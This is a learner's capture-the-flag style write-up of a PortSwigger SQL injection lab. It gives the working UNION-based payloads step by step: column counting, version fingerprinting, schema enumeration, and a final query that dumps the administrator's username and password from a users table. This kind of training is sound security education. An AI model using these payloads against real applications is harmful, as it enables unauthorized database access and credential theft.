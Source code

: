## SQLi Lab #5 Writeup

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

### Lab: SQL injection UNION attack, retrieving data from other tables

I will be using Burp Suite for this lab. When I first load in to the lab, I am going to enable my Burp Suite proxy in Firefox using FoxyProxy. 

Once enabled, I can turn on the intercept in Burp Suite and try to load the "Gifts" section of the vulnerable website.

Once I have sent that request to the Repeater in Burp Suite, I can begin injecting some payloads.

1. First I am going to determine the number of columns with the following iterative payload process.

```SQL
' order by 1--
```
> 200
```SQL
' order by 2--
```
> 200
```SQL
' order by 3--
```
> 500 Internal Server Error

Because of the 500 error, I can deduce that the amount of columns is 3 - 1 = 2.

2. Next, I'll determine the data types of the columns.

Since both columns of data on the website are just text, I am going to first guess that both columns are a string with the following payload.
```SQL
' UNION select 'a', 'a'--
```
> 200

I received a 200 response, so I now know that both of the columns are strings.

3. Now that I know there are two columns that are strings, I can try and figure out the version of the database. I'll be using the following link as a cheat sheet.
https://portswigger.net/web-security/sql-injection/cheat-sheet


Microsoft Database Version Payload:
```SQL
' UNION SELECT @@version--
```
> 500 error

PostgreSQL Database Version Payload:
```SQL
' UNION SELECT version()--
```
> 500 error

Oracle Database Version Payload
```SQL
' UNION SELECT banner FROM v$version--
```
> 500 error

I must be doing something incorrect. Checking for syntax errors and workflow errors in community solutions.

I realised I was forgetting the columns in the payload. Since it was not querying the correct amount of columns, no matter what I did, I would get a 500 error.
```SQL
' UNION SELECT version(), NULL--
```
> 200

After looking into the 200 response, I can see that the version is the following:

```HTML
<th>
PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on
x86_64-pc-linux-gnu, compiled by gcc 
(Ubuntu 9.4.0-1ubuntu1~20041) 9.4.0, 64-bit
</th>
```

4. Now that I know the version and database is PostgreSQL, I can begin looking at the database contents in the cheatsheet.
I'll use the following to try and find the table names:
```SQL
SELECT * FROM information_schema.tables
```
However, instead of *, I'll need to find the correct name by googling something like "information_schema.tables postgreSQL"
I can see that in the following link, the table names are identified as 'table_name'.
https://www.postgresql.org/docs/current/infoschema-columns.html

Therefore my payload is:
```SQL
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
> 200

We received the 200 code. Looking at the results, it looks like one of following table names is 'user':
```HTML
<th>
users
</th>    
```

5. I'm going to try and look at the column names of the table name 'users'. From the cheat sheet, my payload will look something like the following:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
Instead of *, I can see from the postgreSQL website that the name of columns is column_name. This will be the next payload.
```SQL
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'--
```
> 200

Two of the following columns are named password and username.

6. Now that I know the table and column names, I can see what is in those columns with the following simple payload.

```SQL
' UNION select username, password FROM users--
```
> 200
a
The above injection gave me administrator password and username.
```HTML
                           <th>administrator</th>
                            <td>787wo1nrar3t43x9pcko</td>
```


7. Now, I'll return to the website and login with that information. 

### Congratulations! I solved the lab :)




### Things to improve upon:
* Don't accidentally encode the payload twice. oof!

* Don't forget the whole point of columns in your payloads after finding the number of columns.

* The search function in Burp Suite is much easier than scrolling, don't forget to use it.

* VIM keybinds, get to know them.

* Take a look at Markdown syntax for better blog-writting!